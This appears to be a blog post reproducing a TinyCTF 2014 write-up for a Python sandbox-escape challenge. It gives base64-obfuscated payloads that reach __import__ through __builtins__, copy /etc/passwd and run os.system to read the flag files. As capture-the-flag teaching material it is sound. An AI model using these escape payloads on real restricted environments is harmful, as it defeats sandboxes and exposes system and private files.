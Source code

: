 ```yaml
---
layout: post
title: TinyCTF - not-exactly-alcatraz
categories:
- CTF
tags: [ctf]
status: publish
type: post
published: true
meta:
  _edit_last: '1'
  pw_single_layout: '1'
---
```


Content found at: [Tiny CTF 2014 write-ups](https://github.com/ctfs/write-ups/tree/master/tinyctf-2014/not-exactly-alcatraz "TinyCTF 2014 write-ups")

Un-zip [the provided `pwn200.zip` file](https://github.com/ctfs/write-ups/raw/master/tinyctf-2014/not-exactly-alcatraz/pwn200.zip):

{% highlight bash linenos %}
$ unzip pwn200.zip
Archive:  pwn200.zip
  inflating: pwn200
{% endhighlight %}

The extracted `pwn200` file is a Python script.

{% highlight bash linenos %}
$ python pwn200

Welcome to Safe Interactive CPython Shell (SICS)
================================================

Rules:
    - Wash your dishes
    - Don't eat the yellow snow
    - Do not import anything
    - No peeking at files!

baby@sics:~$
1 + 1
2
baby@sics:~$
open('/home/pybaby/flag.txt')
...
...
...

{% endhighlight %}

Well, we can't do anything 'normal' time for some 'exotic' code (-;

{% highlight bash linenos %}
# Well, let's try to import a library:
# X19pbXBvcnRfXw== is __import__ 
# c2h1dGls is shutil
__builtins__.__dict__['X19pbXBvcnRfXw=='.decode('base64')]('c2h1dGls'.decode('base64')).copyfile('/etc/passwd', '/proc/self/fd/0')
# Doing so on our local box

python pwn200
>>> __builtins__.__dict__['X19pbXBvcnRfXw=='.decode('base64')]('c2h1dGls'.decode('base64')).copyfile('/etc/passwd', '/proc/self/fd/0')
# BOOM! The password file... Okay, so this should work right?!

Nope... A socket dup'd fd doesn't like to be used like this...so back to the drawing board...

# Well, let's try to import a library again and use a system command:
# X19pbXBvcnRfXw== is __import__
# b3M= is os
__builtins__.__dict__['X19pbXBvcnRfXw=='.decode('base64')]('b3M='.decode('base64')).system("cat /home/pybaby/*.txt")

MONEY!!!

{% endhighlight %}

The flag is `flag{python_sandboxing:_harder_than_teaching_your_mom_dota}`.
